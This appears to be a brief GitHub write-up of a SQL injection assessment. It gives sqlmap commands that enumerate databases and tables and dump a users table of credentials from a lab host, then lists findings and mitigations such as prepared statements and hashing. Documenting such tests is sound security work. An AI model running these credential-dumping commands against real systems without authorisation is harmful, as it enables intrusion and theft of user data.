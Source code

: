 # SQL Injection Exploitation with SQLMap

## Overview
SQL injection (SQLi) was exploited to **bypass authentication** and extract sensitive data from the web application's database.

## Commands Used
```bash
# Identify SQL injection vulnerability
sqlmap -u "http://192.168.1.100/login.php?user=admin" --dbs

# Extract database tables and columns
sqlmap -u "http://192.168.1.100/login.php?user=admin" -D users_db --tables

# Dump user credentials
sqlmap -u "http://192.168.1.100/login.php?user=admin" -D users_db -T users --dump

```
## Findings 
1. The login page was vulnerable to SQL injection.
2. User credentials were stored in plaintext, increasing security risk.
3. Lack of input validation allowed attackers to manipulate database queries.

## Mitigation Strategies
1. Implement prepared statements to prevent SQL injection.
2. Enforce input validation and sanitization for user inputs.
3. Restrict database user privileges to limit query execution scope.
4. Encrypt stored credentials using secure hashing (bcrypt, Argon2).
5. Deploy a Web Application Firewall (WAF) to detect and block SQL injection attempts.